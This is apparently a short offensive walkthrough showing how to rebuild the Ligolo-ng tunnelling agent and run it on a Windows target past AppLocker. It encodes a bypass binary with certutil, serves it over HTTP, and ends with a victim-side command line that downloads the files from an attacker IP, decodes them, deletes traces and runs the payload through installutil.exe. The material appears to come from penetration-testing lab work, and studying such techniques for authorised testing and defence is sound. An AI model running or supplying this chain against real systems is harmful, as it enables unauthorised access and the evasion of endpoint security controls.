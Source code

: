 ### <ins>Step 1: Modify the Ligolo-ng agent's main file</ins>
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  - <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### <ins>Step 2: Compile the agent<ins/> 
  - Use the following command to compile: 
  - `GOOS=windows go build -o agent.exe cmd/agent/main.go`

### <ins>Step 3: Encode the ApplockerBypassExternalBinary executable with certutil<ins/> 
  - `certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.txt`

### <ins>Step 4: Execution on the Target Machine<ins/>
  - Name the agent executable `ligolo-agent.exe` 
  - Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### <ins/>Step 5: Execution in Action!<ins/> 
  - On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
